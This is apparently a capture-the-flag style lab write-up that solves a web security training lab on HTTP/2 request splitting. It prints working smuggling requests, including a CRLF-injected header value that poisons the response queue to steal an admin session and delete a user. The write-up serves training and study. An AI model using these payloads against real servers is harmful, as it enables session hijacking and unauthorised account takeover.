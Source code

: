 # HTTP/2 request splitting via CRLF injection
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
Cookie: session=t8Qlp6VyZ8KyntbHD2av2JTBUx91fs0E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 115

GET /smuggled HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Length: 5

x=1
```

#### H2.TE attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
Cookie: session=t8Qlp6VyZ8KyntbHD2av2JTBUx91fs0E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
```

### Request splitting
Website is vulnerable to `HTTP/2 request splitting` - smugglinng requests in HTTP/2 header.
|![](Images/image-72.png)|
|:--:| 
| *Request was smuggled successfuly* |
|![](Images/image-73.png)|
| *Request was smuggled successfuly* |

## Exploitation
By exploitig `HTTP/2 request splitting` vulnerability attacker can poison response queue. Because of that, attacker can receive victim's response. In this case attacker was able to get `HTTP 302` response with admin's session token. Victim was trying to log in and he did not receive correct response. He received response to smuggled request (`GET` request to `/smuggled`) - `HTTP 404 Not found`.

> [!IMPORTANT]  
> In order to smuggle whole request and separate it from other request the smuggled request must end with `\r\n\r\n`. In this case this wasn't needed because front-end was adding `\r\n\r\n` automatically.

```
Client                                              Front-end
Attacker Request_1, Request_2 (smuggled)    -->     
                                            <--     Response_1
Victim Request_3                            -->
                                            <--     Response_2
Attacker Request_4                          -->
                                            <--     Response_3
```

```
GET / HTTP/2
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
Cookie: session=t8Qlp6VyZ8KyntbHD2av2JTBUx91fs0E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Foo: bar\r\n\r\nGET /smuggled HTTP/1.1\r\nHost: 0ad900ce0348096a83d624be00a80045.web-security-academy.net

```

Header `Foo` value:
```
bar\r\n
\r\n
GET /smuggled HTTP/1.1\r\n
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
```

|![](Images/image-74.png)|
|:--:| 
| *Successful response queue poisoning* |
|![](Images/image-75.png)|
| *Admin panel* |
|![](Images/image-76.png)|
| *Deletionn of userCarlos* |